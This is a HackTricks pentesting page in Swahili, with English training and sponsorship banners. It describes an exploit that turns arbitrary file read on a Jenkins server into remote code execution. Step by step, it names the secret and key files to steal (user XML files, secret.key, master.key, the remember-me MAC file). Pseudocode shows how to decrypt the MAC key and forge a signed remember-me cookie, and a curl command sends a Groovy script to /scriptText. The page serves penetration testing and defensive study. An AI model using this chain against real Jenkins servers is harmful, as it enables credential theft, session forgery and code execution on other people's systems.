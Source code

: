 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Katika chapisho hili la blog, inawezekana kupata njia nzuri ya kubadilisha udhaifu wa Local File Inclusion katika Jenkins kuwa RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Hii ni muhtasari wa AI wa sehemu ya chapisho ambapo ufundi wa kuki isiyo ya kawaida unatumika vibaya kupata RCE kwa kutumia kusoma faili za ndani hadi nitakapokuwa na muda wa kuunda muhtasari wangu mwenyewe:

### Masharti ya Shambulio

* **Mahitaji ya Kipengele:** "Remember me" lazima iwe imewezeshwa (mipangilio ya default).
* **Viwango vya Ufikiaji:** Mshambuliaji anahitaji ruhusa za Jumla/Soma.
* **Ufikiaji wa Siri:** Uwezo wa kusoma maudhui ya binary na maandiko kutoka kwa faili muhimu.

### Mchakato wa Kina wa Kutumia

#### Hatua ya 1: Kukusanya Data

**Ukurasa wa Taarifa za Mtumiaji**

* Fikia usanidi wa mtumiaji na siri kutoka `$JENKINS_HOME/users/*.xml` kwa kila mtumiaji ili kukusanya:
* **Jina la mtumiaji**
* **Mbegu ya mtumiaji**
* **Wakati**
* **Hash ya nywila**

**Uondoaji wa Funguo za Siri**

* Ondoa funguo za cryptographic zinazotumika kwa ajili ya kusaini kuki:
* **Funguo ya Siri:** `$JENKINS_HOME/secret.key`
* **Funguo Kuu:** `$JENKINS_HOME/secrets/master.key`
* **Faili ya Funguo ya MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Hatua ya 2: Uundaji wa Kuki

**Maandalizi ya Token**

*   **Hesabu Wakati wa Kuisha wa Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Ongeza saa moja kwa wakati wa sasa
```
{% endcode %}
*   **Unganisha Data kwa Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Ufunguo wa MAC Ufunguo**

*   **Fungua Faili ya Funguo ya MAC:**

```javascript
key = toAes128Key(masterKey)  // Badilisha funguo kuu kuwa muundo wa funguo wa AES128
decrypted = AES.decrypt(macFile, key)  // Fungua faili ya .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Hesabu ya Sahihi**

*   **Hesabu HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Hesabu HMAC kwa kutumia token na funguo ya MAC
tokenSignature = bytesToHexString(mac)  // Badilisha MAC kuwa mfuatano wa hexadecimal
```

**Ufungaji wa Kuki**

*   **Unda Kuki ya Mwisho:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 encode data ya kuki
```
{% endcode %}

#### Hatua ya 3: Utekelezaji wa Msimbo

**Uthibitishaji wa Kikao**

* **Pata CSRF na Token za Kikao:**
* Fanya ombi kwa `/crumbIssuer/api/json` ili kupata `Jenkins-Crumb`.
* Pata `JSESSIONID` kutoka kwa jibu, ambayo itatumika pamoja na kuki ya remember-me.

**Ombi la Utekelezaji wa Amri**

*   **Tuma Ombi la POST na Skripti ya Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Skripti ya Groovy inaweza kutumika kutekeleza amri za kiwango cha mfumo au shughuli nyingine ndani ya mazingira ya Jenkins.

Mfano wa amri ya curl iliyotolewa inaonyesha jinsi ya kufanya ombi kwa Jenkins na vichwa na kuki zinazohitajika ili kutekeleza msimbo usio wa kawaida kwa usalama.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
